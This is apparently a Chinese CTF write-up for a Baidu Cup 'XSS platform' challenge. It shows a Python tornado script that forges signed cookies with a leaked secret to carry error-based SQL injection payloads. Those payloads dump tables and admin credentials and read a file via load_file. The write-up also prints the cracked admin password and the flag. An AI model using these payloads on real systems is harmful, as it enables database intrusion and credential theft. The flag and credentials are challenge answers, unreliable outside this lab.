









# XSS平台

## 题目描述
---
```
后台有获取flag的线索    
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---


## 题目分值
---
50

## 解题思路
---

参数报错得知使用的是`Rtiny`



> Rtiny：https://github.com/r0ker/Rtiny-xss/tree/master

审计Rtiny，发现lock.py文件中的代码是存在注入的：



我们可以随意构造username，代码没有做任何过滤。`cookie`保存了用户名，该用户名使用了`set_secure_cookie`方法进行加密，`set_secure_cookie`是tornado的一个方法：



那么我们想要注入成功，就需要构造一个合适`username`，然后使用`set_secure_cookie`加密，使服务器在加载`username`时产生注入攻击。

`set_secure_cookie`加密使用的`key`在`index.php`文件中，所以我们只需要将自己的注入语句，使用相同的`key`加密即可，脚本如下：

```python
# pip install tornado

#!/usr/bin/env python
#-*- coding: utf-8 -*-
import tornado.ioloop
import tornado.web 
 
settings = { 
   "cookie_secret" : "M0ehO260Qm2dD/MQFYfczYpUbJoyrkp6qYoI2hRw2jc=",
}

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        self.write("Hello")
        # 获取mysql版本
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select version()))) -- ")
        # 获取表名
        # self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,(select group_concat(distinct table_name) from information_schema.tables where table_schema=database())))-- ")
        # 获取列名
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,(select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='manager')))-- ")
        # 获取数据
        # self.set_secure_cookie("username","' and extractvalue(1,concat(0x5c,mid((select group_concat(username,'|',password,'|',email) from manager),30,62))) -- ")
        # 获取flag
        self.set_secure_cookie("username", "' and extractvalue(1,concat(0x5c,mid((select load_file('/var/www/html/f13g_ls_here.txt')),28,60)))#")
        self.write(self.get_secure_cookie("username"))

def make_app():
    return tornado.web.Application([
        (r"/index", MainHandler),
        ], **settings)

if __name__ == "__main__":
    app = make_app()
    app.listen(8100)
    tornado.ioloop.IOLoop.instance().start()
```

脚本跑起来后，访问地址`http://127.0.0.1:8100/index`，在浏览器中就可以获得`恶意username`的`set_secure_cookie`加密后内容



获取后台的登录账号密码`ichuqiu|318a61264482e503090facfc4337207f|545`

解密md5，得到密码为`Myxss623`





登录，获得获得真实信息



flag在`f13g_ls_here.txt`文件中，使用mysql的`load_file`函数获取flag





得到 flag{7a491787-3ce5-4a26-88d2-e2bd392265ba}


## 参考
---


